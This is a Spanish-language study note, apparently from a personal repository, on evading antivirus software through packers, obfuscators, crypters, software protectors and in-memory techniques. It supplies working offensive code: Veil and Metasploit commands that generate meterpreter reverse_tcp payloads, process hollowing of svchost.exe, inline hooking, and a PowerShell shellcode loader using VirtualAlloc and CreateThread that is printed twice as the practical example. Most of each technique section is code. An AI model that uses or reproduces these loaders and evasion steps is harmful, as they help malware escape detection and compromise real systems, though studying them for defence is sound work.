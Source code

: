 # Antivirus Evasion

Propietario: Adrian Gisbert Cabello

### 1. Introducción a la Evasión de Antivirus

La evasión de antivirus se divide en dos categorías principales: en-disco (on-disk) y en-memoria (in-memory). La evasión en-disco se centra en modificar archivos maliciosos almacenados en disco para evitar la detección del antivirus (AV). La evasión en-memoria evita escribir archivos en disco y, en su lugar, manipula la memoria volátil.

### 2. Métodos de Detección de Código Malicioso

1. **Detección Basada en Firmas**: Utiliza secuencias de bytes únicas dentro del malware para identificarlo.
2. **Detección Heurística**: Utiliza reglas y algoritmos para determinar si una acción es maliciosa.
3. **Detección Basada en Comportamiento**: Analiza dinámicamente el comportamiento de un archivo ejecutándolo en un entorno emulado .

### 3. Técnicas de Evasión en-Disk

### 3.1. Packers

Los packers comprimen un ejecutable de manera que cambian la estructura binaria del archivo, generando una nueva firma que puede evitar la detección de AV antiguos y simplistas. Ejemplo: UPX.

```bash
upx -9 malicious.exe
```

Sin embargo, el uso de UPX y otros packers populares por sí solos no es suficiente para evadir los escáneres AV modernos .

### 3.2. Obfuscators

Los ofuscadores reorganizan y mutan el código para hacerlo más difícil de revertir. Incluyen la inserción de instrucciones irrelevantes o "código muerto", y la reordenación de funciones.

```bash
# Usando un ofuscador para Python
pyarmor obfuscate script.py
```

Esta técnica es marginalmente efectiva contra la detección basada en firmas .

### 3.3. Crypters

Los crypters cifran el código ejecutable, añadiendo un stub de descifrado que restaura el código original en tiempo de ejecución. La descodificación ocurre en la memoria, dejando solo el código cifrado en disco.

```bash
# Ejemplo con Veil-Evasion
veil
use 1
set PAYLOAD windows/meterpreter/reverse_tcp
generate
```

### 3.4. Software Protectors

Los protectores de software combinan técnicas de cifrado, ofuscación y anti-depuración, entre otras, para evitar la detección del AV.

```bash
# Ejemplo con Enigma Protector
wine enigma_protector.exe
```

Estos protectores fueron diseñados para propósitos legítimos pero también pueden ser usados para evadir AV .

### 4. Técnicas de Evasión en-Memory

### 4.1. Inyecciones de Memoria de Procesos Remotos

Se intenta inyectar el payload en otro proceso PE válido que no es malicioso utilizando APIs de Windows.

```bash
# Ejemplo con PowerShell
$code = @"
[DllImport("kernel32.dll")] public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")] public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")] public static extern IntPtr memset(IntPtr dest, uint src, uint count);
"@
$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru
[Byte[]]$sc = <shellcode>
$size = 0x1000
if ($sc.Length -gt 0x1000) {$size = $sc.Length}
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40)
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)}
$winFunc::CreateThread(0,0,$x,0,0,0)
for (;;) { Start-Sleep 60 }
```

Esta técnica no escribe ningún archivo en disco, lo que evita la mayoría de los productos AV .

### 4.2. Reflective DLL Injection

Carga una DLL en la memoria del proceso sin escribir en disco.

```bash
# Ejemplo con Metasploit
use exploit/windows/local/reflective_dll_injection
set PAYLOAD windows/meterpreter/reverse_tcp
run
```

Este método requiere escribir una versión personalizada de la API que no dependa de una DLL basada en disco .

### 4.3. Process Hollowing

Lanza un proceso no malicioso en un estado suspendido, reemplaza su imagen en memoria con una imagen ejecutable maliciosa y luego reanuda el proceso.

```bash
# Ejemplo con C/C++
CreateProcess("svchost.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
ZwUnmapViewOfSection(pi.hProcess, pImageBase);
NtWriteVirtualMemory(pi.hProcess, pImageBase, pNewImageBase, pImageSize, NULL);
NtResumeThread(pi.hThread, NULL);
```

Esto permite que el código malicioso se ejecute en lugar del proceso legítimo .

### 4.4. Inline Hooking

Modifica la memoria e introduce un hook que redirige la ejecución del código a nuestro código malicioso.

```bash
# Ejemplo con C/C++
DWORD oldProtect;
VirtualProtect((LPVOID)pFunction, length, PAGE_EXECUTE_READWRITE, &oldProtect);
memcpy((LPVOID)pFunction, (LPVOID)pMyFunction, length);
VirtualProtect((LPVOID)pFunction, length, oldProtect, &oldProtect);
```

Este método modifica la ejecución del flujo de código para incluir el código malicioso antes de retornar al flujo original .

### 5. Ejemplo Práctico: Evasión de AV con PowerShell

```powershell
# Ejemplo de inyección en memoria con PowerShell
$code = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);
"@
$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru
[Byte[]]$sc = <shellcode>
$size = 0x1000
if ($sc.Length -gt 0x1000) {$size = $sc.Length}
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40)
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)}
$winFunc::CreateThread(0,0,$x,0,0,0)
for (;;) { Start-Sleep 60 }
```

Este script de PowerShell interactúa con la API de Windows para realizar una inyección en memoria, evitando así la detección de AV .